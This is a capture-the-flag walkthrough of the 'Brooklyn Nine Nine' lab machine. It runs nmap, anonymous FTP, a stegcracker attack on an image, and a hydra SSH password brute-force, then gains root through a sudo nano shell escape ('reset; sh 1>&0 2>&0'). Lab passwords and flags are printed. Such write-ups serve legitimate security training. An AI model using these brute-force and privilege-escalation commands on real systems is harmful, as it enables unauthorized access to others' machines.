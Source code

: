 # Brooklyn nine nine

<img src="bnn.jpeg" alt="bnn" width=200/>

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf 

```
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 718, Words: 94, Lines: 33]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]

```

Haha a comedy classic. ok ftp first

```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
227 Entering Passive Mode (10,10,70,22,232,201)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (1.1822 MB/s)
```

haha `jake` got a weak password. No surprise here! does it mean we can brute his ssh?

hmm..let's check the website first...wide background...lets check code (always)

```

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
```

<img src="brooklyn99.jpg" alt="bnn_steg" width=300/>


steganography is booming now...Do people really use it that much IRL?

```
└──╼ $binwalk brooklyn99.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


└──╼ $steghide --info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacit�: 3,5 KB
Essayer d'obtenir des informations � propos des donn�es incorpor�es ? (o/n) o
Entrez la passphrase: 
steghide: Impossible de d�compresser les donn�es. Donn�es endommag�es.
```
corrupted data? now what? oh yeah wrong passphrase!

stegcracker it is! well I don't like bruteforce alot

```
└──╼ $stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20715 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

time-consuming for probable results...my computer is a potato...oh look it's done!

in the extracted file we get holt-s password lol

```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Ok now I get it..the author was talkig about two ways of access

I thought we would be jake but we are holt...

I want to try something real quick (not so quick) 


```
└──╼ $hydra -l jake -P /usr/share/wordlists/rockyou.txt -s 22 -f 10.10.70.22 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-27 01:18:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.70.22:22/
[22][ssh] host: 10.10.70.22   login: jake   password: 987654321
[STATUS] attack finished for 10.10.70.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-27 01:18:25
```

Lol I knew it! now we hae two possible ways of access:

`jake:987654321`

`holt:fluffydog12@ninenine`

I like jake alot but I feel holt would have more "authority"...holt first!

We can always su to jake if the same password is valid

```
holt@brookly_nine_nine:~$ cat user.txt
brooklyn_nine_nine_flag
```

## Privilege Escalation

Even holt needs more privileges

```
holt@brookly_nine_nine:/home/amy$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

nano? easy!

like vi or vim nano can execute commands too

as it runs as root (sudo) just ask for a shell and it shall be a root shell

first open nano with root authority

`sudo nano`

Next do ^R (ctrl+R) for reading mode then ^X (ctrl+X) for commands execution

your command for a shell would be:
```
reset; sh 1>&0 2>&0
```
press enter and you are root

```
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now go get that flag!

```
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: nine_nine_hacked_flag

Enjoy!!
```
I hope you have fun doing this room...I specifically request it! XD

